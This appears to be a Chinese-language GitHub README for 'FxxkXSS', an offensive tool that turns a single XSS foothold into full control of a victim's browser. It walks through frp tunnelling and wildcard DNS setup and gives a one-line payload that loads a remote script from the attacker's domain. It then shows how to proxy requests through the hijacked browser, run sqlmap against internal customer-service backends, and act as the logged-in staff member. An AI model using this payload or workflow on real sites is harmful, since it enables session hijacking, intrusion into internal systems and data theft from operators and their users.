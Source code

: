 # fuckxss

> 这是一个用来尽可能最大化xss危害的小工具，废话不多说了看下面的介绍吧~

## 直接上手跑Release

#### 需要准备的

1. 一台公网服务器（vps）
2. 一个有证书（非必要）且能进行泛解析的域名
3. frp或其他内网穿透服务


如果要傻瓜式一点的可以看视频：[【分享】FxxkXSS，一个深入利用后台XSS的工具](https://www.bilibili.com/video/BV1nh411h7pZ)


#### 下载

先去release下一下已经编译好了的，这里只编译了win平台的，对于Mac或者Linux可能需要看一下下面的直接跑源码，→ [release](https://github.com/Yeuoly/FxxkXSS/releases/tag/1.0.0)

下到的应该是一个压缩包，我们将其解压，然后找到里面的fxxkxss.exe，点开！

看到的应该是这样的

![static/img/index.png](static/img/index.png)


#### 配置frp

然后我们需要一个跑在有公网ip的服务器上的frp，配置服务器上的frp为如下

```yaml
[common]
token = xxxx
bind_port = 33333
bind_addr = 0.0.0.0
```

token可以看做一个秘钥一样的东西，这样别人就不能轻易连接自己的frp服务，bind_port是frp用于和用户通讯的端口，0.0.0.0即默认对所有ip

然后启动

```bash
./frps -c frps.ini
```

然后在跑fxxkxss的机器上启动frp，配置如下

```yaml
[common]
server_addr = 服务器的ip
server_port = 之前的端口 #33333

[xssclient]
type = tcp
local_ip = 127.0.0.1
local_port = 10091
remote_port = 25567

[xssstatic]
type = tcp
local_ip = 127.0.0.1
local_port = 10092
remote_port = 25568
```

启动

```bash
./frpc -c frpc.ini
```


#### 域名解析

假设我们现在的域名是 xss.com，那么新建一个解析 xss.xss.com -> 你的vps<br>

新建一个解析 *.localhost.xss.com -> 127.0.0.1 （重点，要求一个到127.0.0.1的泛解析）


#### 配置fxxkxss

然后我们修改fxxkxss的配置为如下

![](static/img/config.png)

xssclient的remote_port与WS外网端口对应，local_port与WS内网端口对应<br>

xssstatic的remote_port与资源外网端口对应，local_port与资源外网端口对应 <br>

资源域名填上面的 xss.xss.com，代理域名填localhost.xss.com<br>

如果有需要的话，把HTTPS/WSS打开，但是一定要给出证书！<br>

万一出现一启动就报错的问题，将下面这个文件删了再重启：<br>

C:\Users\\你的用户名\AppData\Roaming\fuckxss\config.json


#### 开始玩吧~

准备好一个要被xss的网页，并准备好一句话xss：

```javascript
document.body.appendChild(document.createElement('script')).src='http[s]://资源域名:25568/embed.js'
```

当执行了这么一句话以后，我们就可以在下面这个地方发现被xss的浏览器

![](static/img/getshell.png)

且这里可以发现其编号为0，那么我们可以尝试着向

http.80.www.baidu.com.s0.localhost.xss.com:10093发一个请求看看，fxxkxss会将这个请求解析为http://www.baidu.com:80，然后转化为下面这段代码，最后丢给浏览去执行，并返回结果

```javascript
var xml = new XMLHttpRequest() || new ActiveXObject('MicroSoft.XMLHTTP');
xml.open('GET', 'http://www.baidu.com:80')
xml.send()
xml.onreadystatechange = function(){
    //do something
}
```


那么假设客服后台有一个SQL注入，但是用xss注入数据麻烦的一批，那么就可以用到fxxkxss的这个功能，假设客服后台存在api.xxx.com/getinfo存在注入，那么我们用sqlmap跑这个url：http.80.api.xxx.com.s0.localhost.xss.com:10093/getinfo<br>


那么问题来了，怎么找注入呢？可以用到fxxkxss的代理模块，首先使用

```javascript
window.location.href
```

获取客服后台地址（假设为api.xxx.com/home），然后使用指令

```javascript
/generate/proxy_url http://api.xxx.com/home
```

我们就能获取到一个代理链接，http.80.api.xxx.com.s0.xss.com:10093/home<br>

我们在这个链接上再加上?fxxkxss_proxy=true，即http.80.api.xxx.com.s0.xss.com:10093/home?fxxkxss_proxy=true<br>

再拿浏览器去直接访问就好了，不出意外的话会得到一个跟客服后台一模一样的界面，客服能看到什么你就能看到什么， 你摁了什么按钮就相当于客服用了什么按钮，这个功能的底层原理就是 hook XMLHttpRequest配合fxxkxss的代理

## 跑源码

```bash
# 安装依赖
npm install
yarn
cnpm install #（慎用）

# 以开发模式启动，请保持9080端口不被占用
npm run dev

# 编译
npm run build

```

---

#### [教程点我](https://ylday.srmxy.cn/post-page?pid=c6fc485707af90bd34b57393d8e6b812)
